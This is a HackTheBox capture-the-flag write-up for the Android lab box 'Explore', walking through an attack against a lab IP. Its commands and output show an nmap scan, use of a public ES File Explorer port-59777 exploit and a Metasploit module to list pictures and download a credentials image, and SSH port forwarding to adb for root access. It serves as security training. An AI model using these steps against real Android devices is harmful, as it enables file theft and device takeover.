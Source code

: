 ```yaml
---
title: Explore writeup
date: 2022-06-22 13:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["Easy-box", "adb", "android"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/explore/
image: # Thumbnail 
  src: Explore.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```

## Summary
This was an easy android box centered around enumerating an android system, as well as using knowledge of adb features to root the device.

## Foothold
We start out by doing a port scan with nmap.
```console
┌──(bitis㉿workstation)-[~/htb/Machines/Explore]
└─$ nmap -sV -sC -p- 10.129.137.244
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 20:59 CEST
Nmap scan report for 10.129.137.244
Host is up (0.057s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
42833/tcp open     unknown
...
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.41 seconds
```
The system is hosting an sh service on port 2222, as well as a "freeciv" service on port 5555. Port 42833 is hosting an unknown service and port 59777 is hosting a Bukkit service. Further examination and some googling reveals that 5555 is also used by adb on some Android devices. That said, it is filtered and therefore not available to us at the moment, instead if we search for port 59777, it seems like it is actually used by a service named ES File Explorer. It is also mentioned that the service contains a vulnerability.

![Research on port 59777](port59777.png)

I found a POC for the vulnerability [here](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln). Using the POC to have a look at the file system reveals an insteresting file.
```console
┌──(bitis㉿workstation)-[~/htb/Machines/Explore/ESFileExplorerOpenPortVuln]
└─$ python3 poc.py --cmd listPics --host 10.129.137.244
[*] Executing command: listPics on 10.129.137.244
[*] Server responded with: 200

{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}
```
There is a jpg on the system named creds. Unfortunately, the POC does not allow us to download files from the system. Luckily metasploit has a module for this vulnerability as well, with the functionality to download arbitrary files. 
```console
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > show actions

Auxiliary actions:

   Name            Description
   ----            -----------
   APPLAUNCH       Launch an app. ACTIONITEM required.
   GETDEVICEINFO   Get device info
   GETFILE         Get a file from the device. ACTIONITEM required.
   LISTAPPS        List all the apps installed
   LISTAPPSALL     List all the apps installed
   LISTAPPSPHONE   List all the phone apps installed
   LISTAPPSSDCARD  List all the apk files stored on the sdcard
   LISTAPPSSYSTEM  List all the system apps installed
   LISTAUDIOS      List all the audio files
   LISTFILES       List all the files on the sdcard
   LISTPICS        List all the pictures
   LISTVIDEOS      List all the videos


msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set action LISTPICS
action => LISTPICS
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > run

[+] 10.129.137.244:59777 
  concept.jpg (135.33 KB) - 4/21/21 02:38:08 AM: /storage/emulated/0/DCIM/concept.jpg
  anc.png (6.24 KB) - 4/21/21 02:37:50 AM: /storage/emulated/0/DCIM/anc.png
  creds.jpg (1.14 MB) - 4/21/21 02:38:18 AM: /storage/emulated/0/DCIM/creds.jpg
  224_anc.png (124.88 KB) - 4/21/21 02:37:21 AM: /storage/emulated/0/DCIM/224_anc.png

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set action GETFILE
action => GETFILE
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set ACTIONITEM /storage/emulated/0/DCIM/creds.jpg
ACTIONITEM => /storage/emulated/0/DCIM/creds.jpg
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > run

[+] 10.129.137.244:59777 - /storage/emulated/0/DCIM/creds.jpg saved to /root/.msf4/loot/20220622220108_default_10.129.137.244_getFile_736928.jpg
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
The jpg can be seen below.
![creds.jpg](creds.jpg)

## Privilege escalation
We can now login as Kristi on the Android device. While doing so we will do port forwarding to communicate with port 5555 on the target system.
```console
┌──(bitis㉿workstation)-[~/htb/Machines/Explore]
└─$ ssh -L 5555:127.0.0.1:5555 kristi@10.129.137.244 -p 2222                                                                                                                                                                          255 ⨯
Unable to negotiate with 10.129.137.244 port 2222: no matching host key type found. Their offer: ssh-rsa
                                                                                                                                                                                                                                            
┌──(bitis㉿workstation)-[~/htb/Machines/Explore]
└─$ ssh -L 5555:127.0.0.1:5555 kristi@10.129.137.244 -p 2222 -o HostKeyAlgorithms=ssh-rsa                                                                                                                                             255 ⨯
The authenticity of host '[10.129.137.244]:2222 ([10.129.137.244]:2222)' can't be established.
RSA key fingerprint is SHA256:3mNL574rJyHCOGm1e7Upx4NHXMg/YnJJzq+jXhdQQxI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.129.137.244]:2222' (RSA) to the list of known hosts.
Password authentication
(kristi@10.129.137.244) Password: 
:/ $ 
```

Once the port has been forwarded, we can can connect via adb. Once connected, adb offers commands such as `adb root` and `adb unroot` to root and unroot the user connecting via adb.

```console
┌──(bitis㉿workstation)-[~/htb/Machines/Explore]
└─$ adb connect localhost:5555                                                                                                                                                                            connected to localhost:5555
                                                                                                                                                                                                                                            
┌──(bitis㉿workstation)-[~/htb/Machines/Explore]
└─$ adb devices               
List of devices attached
localhost:5555  device

                                                                                                                                                                                                                                            
┌──(bitis㉿workstation)-[~/htb/Machines/Explore]
└─$ adb root   
restarting adbd as root
                                                                                                                                                                                                                                            
┌──(bitis㉿workstation)-[~/htb/Machines/Explore]
└─$ adb shell
x86_64:/ # id                                                                                                                                                                                                                              
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:su:s0
x86_64:/ # 
```
Rooted!